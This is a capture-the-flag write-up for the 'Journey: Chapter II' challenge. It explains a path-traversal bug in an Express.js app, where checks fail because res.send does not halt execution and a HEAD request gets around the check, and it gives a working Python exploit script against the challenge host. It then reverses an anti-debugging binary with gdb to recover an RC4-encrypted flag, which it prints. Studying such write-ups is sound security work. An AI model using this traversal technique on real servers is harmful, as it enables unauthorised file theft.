 # Journey: Chapter II (web/re, 384+31 pts, 5 solves)

The source of `admin.html` suggests that we are after an `admin-tool` binary:
```html
<div style="margin-top: 20px">
    Don't forget to practice remembering your Security Key PIN code with the ./admin-tool tool!
</div>
```

An arbitrary file read would be nice. One endpoint is interesting in this regard:
```javascript
app.get('/share', async function (req, res) {
    if (!req.session.username)
        res.send({ err: 'not logged in' })
  
    const favList = favDb.get(req.session.username)
    if (!favList || favList.length === 0)
        res.send({ err: 'favorites list is empty' })

    const result = {}
    for (const favPath of favList) {
        const [type, name] = path.relative(CONTENT_DB_PATH, favPath).split(path.sep)
        result[type] = result[type] || {}
        result[type][name.replace(".txt", "")] = fs.readFileSync(`${CONTENT_DB_PATH}/${type}/${name}`, "latin1")
    }
    const favId = crypto.randomBytes(8).toString("hex")
    await db.put(`fav_${favId}`, result)
    favDb.set(req.session.username, [])
    res.send({ favId })
})
```

Note that, even though the database stores paths, the endpoint deconstructs
the path manually, and then assembles it back together. Let's take a closer
look at how the paths get inserted into the database.

```javascript
app.get('/favorite', async function (req, res) {
    if (!req.session.username)
        res.send({ err: 'not logged in' })

    const { type, name, unfav } = req.query
    if (type !== "book" && type !== "quote")
        res.send({ err: 'invalid type' })

    if (name.includes("/") || name.includes(".."))
        res.send({ err: 'invalid name' })

    const itemPath = `${CONTENT_DB_PATH}/${type}/${name}.txt`
    if (!fs.existsSync(itemPath))
        res.send({ err: 'not found' })
      
    const favs = favDb.get(req.session.username) || []
    if (unfav)
        favs = favs.filter(x => x !== itemPath)
    else    
        favs.push(itemPath)
      
    favDb.set(req.session.username, favs)
    res.send({ success: true })
})
```

Damn, path traversal is detected and rejected. Except... does `res.send`
end the execution of the function? A quick local test says no, so the checks
are merely a red herring! So let's send a request with `name` set to
`../../admin-tool/x`! One `..` to exit the `quote` directory, and another to
escape `db`. `path.relative` will remove the `quote/../` part, and subsequent
code will trim the path to the first 2 components: `../admin-tool`. This avoids
the `.txt` extension.

Except... it doesn't work: `{"err":"favorites list is empty"}`.

A bit more local testing suggests that `res.send` can only be called once, and
subsequent calls will raise an exception, complaining that "the headers can
only be sent once". This means that, while we may bypass the `name` check,
`existsSync` will still prevent us from injecting the path.

We brainstormed abusing various weird filesystem behaviors, as `path.relative`
does not access the filesystem and thus doesn't know about symbolic links such
as `/proc/self/cwd`. This seems to have been a dead end.

At this point, I decided to dive into the code of `express` to look for a way
of bypassing the exception, and soon stumbled upon a hint:
```javascript
if (req.method === 'HEAD') {
  // skip body for HEAD
  this.end();
} else {
  // respond
  this.end(chunk, encoding);
}
```
It turns out that sending a HEAD request will allow us to bypass the check, though
the snippet above doesn't seem to be directly responsible for it. This lets us
fetch the `admin-tool` binary:

```python
from requests import Session
from uuid import uuid4
s = Session()
rando = str(uuid4())
print(s.post("http://journey.ctf.spamandhex.com/register", json={"password": rando, "username": rando}).content)
print(s.post("http://journey.ctf.spamandhex.com/login", json={"password": rando, "username": rando}).content)
data = {
    "type": "quote",
    "name": "../../admin-tool/x",
}
print(s.head('http://journey.ctf.spamandhex.com/favorite', params=data).content)
fav = s.get("http://journey.ctf.spamandhex.com/share").json()['favId']
print(fav)
data = (s.get('http://journey.ctf.spamandhex.com/favorites?type=..&favId=' + fav).json())
open('admin-tool', 'wb').write(data['admin-tool'].encode('latin1'))
```

A few minutes in the disassembler show that
1. The binary attempts to detect the debugger with PTRACE_TRACEME
2. Our input is encrypted with RC4 or a derivative, and ciphertexts are compared.
   The key is fixed.

I have first attempted to use a Python implementation of RC4, but the decryption
failed. I have decided that it would be more productive to extract the keystream
from the running program with gdb.

```
(gdb) b ptrace
Breakpoint 1 at 0x4005c0
(gdb) r
Starting program: /home/kuba/spamandhex/admin-tool
Journey: PIN Recovery Tool

  "All journeys have secret destinations of which the traveler is unaware."

                                                                    - Martin Buber

PIN recovery: I will tell if you still know the correct PIN or not, so you won't forget it even if you don't use it regularly. That's a great way of recovery I think!


Breakpoint 1, 0x00007ffff7eff210 in ptrace ()
   from /gnu/store/1y7g7kj3zxg2p90g692wybqh9b6gv7q2-glibc-2.31/lib/libc.so.6
(gdb) fin
Run till exit from #0  0x00007ffff7eff210 in ptrace ()
   from /gnu/store/1y7g7kj3zxg2p90g692wybqh9b6gv7q2-glibc-2.31/lib/libc.so.6
0x0000000000400976 in ?? ()
(gdb) x/10i $rip
=> 0x400976:    cmp    $0xffffffffffffffff,%rax
   0x40097a:    jne    0x40098f
   0x40097c:    lea    0x1e5(%rip),%rdi        # 0x400b68
   0x400983:    callq  0x400570 <puts@plt>
   0x400988:    mov    $0x1,%eax
   0x40098d:    jmp    0x400994
   0x40098f:    mov    $0x0,%eax
   0x400994:    pop    %rbp
   0x400995:    retq
   0x400996:    push   %rbp
(gdb) p $rax
$1 = -1
(gdb) set $rax=0
(gdb) b *0x400a62
Breakpoint 2 at 0x400a62
(gdb) c
Continuing.
What's your PIN? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x0000000000400a62 in ?? ()
(gdb) x/32xb 0x602160
0x602160:       0x65    0xbe    0xb8    0x98    0x7b    0x9e    0xf7    0xf9
0x602168:       0x07    0xf6    0x07    0x75    0xa9    0x94    0x44    0x62
0x602170:       0xfc    0x9e    0x47    0x41    0x9d    0x8d    0xa4    0x0f
0x602178:       0x13    0x86    0x17    0x3b    0x3f    0x82    0x82    0x69
(gdb) dump memory stream.bin 0x602160 0x602200
```

```python
binary = open('admin-tool', 'rb').read()
stream = open('stream.bin', 'rb').read()

cipher = binary[0x20c0:]
cipher = cipher[:0x70]

out = bytearray()
for b,k in zip(cipher, stream):
    out.append(b^k^65)
print(out)
# bytearray(b'SaF{It is good to have an end to journey toward; but it is the journey that matters, in the end.-2xzB4tW3}\x80G\x12\xf8{a')
```

**Post-CTF addendum:** While preparing this write-up, I have provided too few `A`
characters in the input, which resulted in the flag decryption stopping too
early. No problem&mdash;I thought&mdash;I'll just do it again.

```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
```

To my surprise, this resulted in a completely different keystream. I soon realized
that this must be because the breakpoint is already there when the program is starting.
After all, breakpoints are implemented by overwriting an opcode with `int3`.

The culprit is an entry in the `.init_array` section:

![init_array.png]

I noticed this function during the CTF, but the code looked like decompiled
`/dev/urandom` at a glance, and [the XREF panel was empty](https://github.com/Vector35/binaryninja-cloud-public/issues/123), so I concluded that it's probably a false positive.

However, further analysis reveals that it checksums most of the code section
and derives an address from the checksum, which is then patched with a `xor`.

Checking with gdb, we see that the address being patched is `0x400902`. This
corresponds to an `add` instruction in the RC4 code, which this xor turns into
a `sub`. The following change in the decoding script makes it decrypt the flag
properly without the dumped keystream:

```diff
-        K = S[(S[i] + S[j]) % 256]
+        K = S[(S[j] - S[i]) % 256]
         yield K
```

I'm quite surprised, and to be honest, somewhat disappointed, that I didn't get
to experience this mischief during the CTF.
